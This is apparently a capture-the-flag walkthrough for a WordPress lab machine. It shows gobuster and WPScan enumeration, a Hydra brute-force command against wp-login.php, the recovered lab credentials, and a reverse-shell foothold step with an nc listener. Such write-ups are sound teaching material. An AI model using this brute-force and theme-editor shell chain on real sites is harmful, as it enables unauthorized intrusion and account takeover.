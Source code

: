 ### Web Application Enumeration

#### Directory Bruteforcing with Gobuster
```bash
gobuster dir -u https://10.10.236.194/ -w /usr/share/wordlists/dirb/big.txt -x php,txt -k
```

**Critical Discoveries:**
- `/wp-admin/` - WordPress administration panel
- `/wp-login.php` - WordPress login page
- `/robots.txt` - Revealed website structure
- `/xmlrpc.php` - XML-RPC interface enabled (attack vector)
- `/admin/` - Potential administrative access point

#### WordPress Security Assessment with WPScan
```bash
wpscan --url http://10.10.236.194/ --enumerate --api-token [REDACTED]
```

**Vulnerability Analysis:**
- **WordPress Version**: 4.3.1 (outdated, 115 known vulnerabilities)
- **Theme**: Twenty Fifteen (version 1.3)
- **XML-RPC Enabled**: Potential brute-force attack vector
- **No plugins detected**: Minimal attack surface

## Exploitation

### WordPress Authentication Bypass

**Attack Vector**: Password brute-force via XML-RPC
**Tool**: Hydra
**Command**: 
```bash
hydra -l elliot -P fs-list 10.10.236.194 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -t 30 -v
```

**Compromised Credentials:**
- **Username**: elliot
- **Password**: ER28-0652

### Initial Foothold

**Method**: Reverse shell deployment through WordPress
**Execution**:
1. Accessed WordPress dashboard with compromised credentials
2. Uploaded malicious payload via theme/plugin editor
3. Established reverse shell connection

```bash
# Attacker machine
nc -lnvp 4444

# Target execution
# Reverse shell payload executed through WordPress
```
